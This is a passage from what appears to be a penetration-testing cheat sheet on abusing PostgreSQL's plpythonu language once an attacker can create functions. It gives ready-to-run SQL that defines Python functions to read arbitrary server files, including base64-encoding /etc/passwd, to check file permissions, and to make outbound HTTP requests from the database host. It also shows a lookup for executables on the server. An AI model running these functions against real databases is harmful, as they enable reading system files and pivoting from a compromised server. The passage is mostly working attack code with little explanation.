 ```sql
SELECT find_exe("psql"); #Find executable by susbstring
```
{% endtab %}

{% tab title="undefined" %}
```sql
CREATE OR REPLACE FUNCTION read (path text)
RETURNS VARCHAR(65535) stable
AS $$
import base64
encoded_string= base64.b64encode(open(path).read())
return encoded_string.decode('utf-8')
return open(path).read()
$$
LANGUAGE 'plpythonu';

select read('/etc/passwd'); #Read a file in b64
```
{% endtab %}

{% tab title="undefined" %}
```sql
CREATE OR REPLACE FUNCTION get_perms (path text)
RETURNS VARCHAR(65535) stable
AS $$
import os
status = os.stat(path)
perms = oct(status.st_mode)[-3:]
return str(perms)
$$
LANGUAGE 'plpythonu';

select get_perms("/etc/passwd"); # Get perms of file
```
{% endtab %}

{% tab title="Αίτηση" %}
```sql
CREATE OR REPLACE FUNCTION req2 (url text)
RETURNS VARCHAR(65535) stable
AS $$
import urllib
r = urllib.urlopen(url)
return r.read()
$$
LANGUAGE 'plpythonu';

SELECT req2('https://google.com'); #Request using python2

CREATE OR REPLACE FUNCTION req3 (url text)
RETURNS VARCHAR(65535) stable
AS $$
from urllib import request
r = request.urlopen(url)
return r.read()
$$
LANGUAGE 'plpythonu';

SELECT req3('https://google.com'); #Request using python3
```
{% endtab %}
{% endtabs %}
